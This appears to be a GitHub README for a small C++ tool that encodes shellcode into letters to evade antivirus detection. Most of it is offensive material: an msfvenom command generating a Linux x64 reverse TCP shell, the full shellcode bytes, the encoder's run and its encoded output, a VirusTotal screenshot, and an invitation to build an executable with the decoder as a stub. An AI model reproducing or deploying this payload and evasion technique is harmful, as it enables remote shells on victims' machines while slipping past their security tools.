 Shell Encoder
============

A minimalist Custom Shellencoder in C++. All Hex Chars (0-F) in Shellcode are mapped to ASCII (g-v).
You can change the key-map in `Source/enc.cpp` and `Source/dec.cpp`. Make sure the key-map match,
a single mismatch screws up everything.

Tested on my ArchLinux instance (x64).


The POC is far from perfect (even though it works), roll with the idea and write a better code :)

### Let's Play "Game of Exec"

Write a Shellexec with an encoded Shellcode, use the `Source/dec.cpp` as the decoder stab. You can compile for Windows 
in Linux using MinGW as well. 

### Sample Output
```bash
root@hell # msfvenom -p linux/x64/shell_reverse_tcp LHOST=0.0.0.0 LPORT=443 -f c

unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x01\xbb\x00\x00\x00\x00\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";
```

####Encoded
```bash
# ./encoder

Enter Shellcode: \x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48\xb9\x02
\x00\x01\xbb\x00\x00\x00\x00\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03
\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e
\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05

Encoded Shellcode
zpmqzpiwzplozpwwzpmqzpgizplfzpmqzpghzplvzpgfzpglzpkozpwnzpkozprwzpgizpggzpghzprrzpg
gzpggzpggzpggzplhzpkozpowzpvmzpmqzphgzplqzpmqzpiqzplozpgfzpglzpmqzpgjzplvzpkozpffzp
svzpmqzpihzplozpgfzpglzpnlzpfmzpmqzpjrzplozpwwzpkozprrzpifzpmizpmwzpmvzpifzpnjzpmoz
pggzpljzpkozpowzpvnzplizplnzpkozpowzpvmzpgfzpgl

```
####Antivirus?
![Virustotal](https://s30.postimg.org/3mio3erep/image.png)

